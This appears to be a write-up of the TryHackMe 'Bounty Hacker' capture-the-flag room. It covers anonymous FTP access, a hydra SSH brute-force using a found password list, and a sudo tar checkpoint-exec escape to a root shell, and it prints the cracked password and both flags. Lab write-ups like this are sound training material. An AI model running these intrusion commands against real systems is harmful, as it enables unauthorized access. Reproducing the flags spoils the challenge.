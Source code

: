Room: Bounty Hacker
Link: https://tryhackme.com/room/cowboyhacker

Machine IP: 10.10.187.209

### Scanning
Nmap scan results:
   21/tcp    open   ftp (Anonymous login allowed)
   22/tcp    open   ssh   
   80/tcp    open   http

FTP:
  From ftp login we find 2 txt files.
  tast.txt states these following tasks:
     1.) Protect Vicious.
     2.) Plan for Red Eye pickup on the moon.

     -lin
 
 Locks.txt contains a list a passwords and as we can see we have a username lin, so we can do a bruteforce attack.
     hydra -l lin -P locks.txt ssh://machine ip
 Within a few seconds we get the password: RedDr4gonSynd1cat3
 
 Now logging in to the machine via ssh, well we find the user flag easily in Desktop directory.
     User flag: THM{CR1M3_SyNd1C4T3}

### PrivEsc
 Running the sudo -l command we see user lin can run tar as root. So searching gtfo bins we find 
     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
 If while running the above command you get an error try sudo 
 /bin/tar. 
And we get our privileged shell.
 Now moving to the root directory we find our root 
 flag: THM{80UN7Y_h4cK3r}
